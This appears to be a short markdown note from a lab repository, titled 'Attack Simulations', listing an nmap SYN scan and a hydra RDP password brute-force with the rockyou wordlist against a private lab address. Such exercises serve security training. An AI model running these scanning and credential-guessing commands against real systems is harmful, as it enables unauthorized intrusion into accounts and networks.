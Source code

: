 # Attack Simulations

## 1. Reconnaissance 
Command:
```bash
$ nmap -sS -vv -T4 192.168.25.1

## 2. Brute Force 
Command:
```bash
hydra -l sunny -P /usr/share/wordlists/rockyou.txt rdp://192.168.25.1



